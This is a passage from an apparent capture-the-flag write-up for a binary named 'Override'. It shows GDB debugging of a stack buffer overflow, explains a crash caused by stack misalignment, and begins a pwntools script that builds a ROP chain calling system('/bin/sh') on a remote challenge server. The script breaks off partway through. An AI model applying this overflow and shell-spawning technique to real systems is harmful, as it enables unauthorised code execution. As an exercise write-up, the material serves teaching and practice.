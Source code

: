 **Result:** Segmentation fault - the overflow works but execution fails.

## Debugging Process

### GDB Analysis

Using GDB to debug the crash:

```bash
$ gdb ./Override
(gdb) run
# Navigate through menu: 3,3,3,3,3,4
# Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

(gdb) info registers
rbp            0x4141414141414141
rsp            0x7fffffffdb98
rip            0x40199b <control_panel+124>

(gdb) x/10gx $rsp
0x7fffffffdb98: 0x4242424242424242  # Our B's in return address position
```

**Key Discovery:** The buffer overflow works perfectly - we control RIP and can jump to our target address. The crash occurs after jumping to `escape_pod`.

### Root Cause: Stack Alignment

Modern x86_64 systems require 16-byte stack alignment before function calls. When we jump directly to `escape_pod`, it calls `system()`, but the stack isn't properly aligned, causing the crash.

## Final Exploit

### Stack Alignment Solution

The fix is to add a `ret` gadget before our target function to ensure proper stack alignment:

```python
#!/usr/bin/env python3
from pwn import *

BINARY = './Override'
HOST = '145.79.11.93'
PORT = 1337

def exploit():
    io = remote(HOST, PORT)
    
    # Setup - perform 5 recalibrations
    for i in range(5):
        io.recvuntil(b'Choose an action:')
        io.sendline(b'3')
    
    # Trigger emergency override
    io.recvuntil(b'Choose an action:')
    io.sendline(b'4')
    io.recvuntil(b'Enter override access code:')
    
    # Stack alignment solution
    ret_gadget = 0x40199b      # ret instruction for alignment
    pop_rdi = 0x402671         # pop rdi; ret gadget
    binsh = 0x496030           # "/bin/sh" string
    system_addr = 0x4050c0     # system() function
    
    # ROP chain: ret (alignment) + pop_rdi + "/bin/sh" + system()
```